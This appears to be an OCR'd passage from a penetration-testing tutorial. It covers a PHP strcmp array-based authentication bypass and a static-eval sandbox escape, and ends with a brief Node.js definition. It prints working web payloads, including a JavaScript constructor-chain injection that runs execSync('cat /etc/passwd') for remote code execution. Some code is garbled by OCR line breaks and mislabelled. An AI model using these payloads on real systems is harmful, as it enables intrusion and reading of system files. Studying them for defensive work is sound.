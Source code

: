 If we pass the input as an array \[array()] php will complain and evaluate the \[array()] as \[NULL]. The problem is when such mechanism exists in an \[IF] statement that handles authentication. Assume that there is an \[IF] statement that compares user's supplied input with an authentication token. That could translate to the below code

```php
if(strcmp($_REQUEST['token'], $token) == 0)
```

If the above expression evaluates to \[0] then the application grants access. So if we pass the \[token] as an \[array()] it will bypass the logic of the \[IF] statement making it evaluate to \[TRUE] always

```php
if(strcmp($_REQUEST['token[]='], $token) == 0)
```

#### Static-Eval

\#Static-Eval is intended for use in build scripts and code transformations, doing some evaluation at build time—it is **NOT** suitable for handling arbitrary untrusted user input. Malicious user input _can_ execute arbitrary code.” The [static-eval](https://www.npmjs.com/package/static-eval) module is intended to statically evaluate a code block. In theory (and assumed by many modules who depend on it) should have no side effects, should not have have access to the standard library, and effectively be sandboxed. However if un-sanitized user input is passed to evaluate we can break out of this “sandbox.

**Static-Eval prior to 2.0.3**

Depending on what object is being evaluated using the static-eval and depending on our knowledge of the source code, we can try to inject any variable that we know is being used to pass user input to the static-eval. Lets say the user input is passed through a button which passes the selected user choice via a variable named `user-choice` then we can inject this variable with the below code through BurpSuit

```php
(function myTag(y){return ""[!y?"__proto__":"constructor"][y]})("constructor")
("console.log(process.env)")()
```

The above code is supposed to print environment variables so to achieve RCE we can modify it to something similar to the below

```php
(function myTag(y){retur
n ''[!y?'__proto__':'constructor'][y]})('constructor')('throw new Error(global.process.mai
nModule.constructor._load(\"child_process\").execSync(\"cat /etc/passwd\").toString())')
()
```

### Node.js

#### Definition

Node.js is a Javascript environment used to build network applications using Javascript. It can be used both on front-end and back-end. It's faster than php and is preferred for applications that need speed such as chat applications running over the browser.
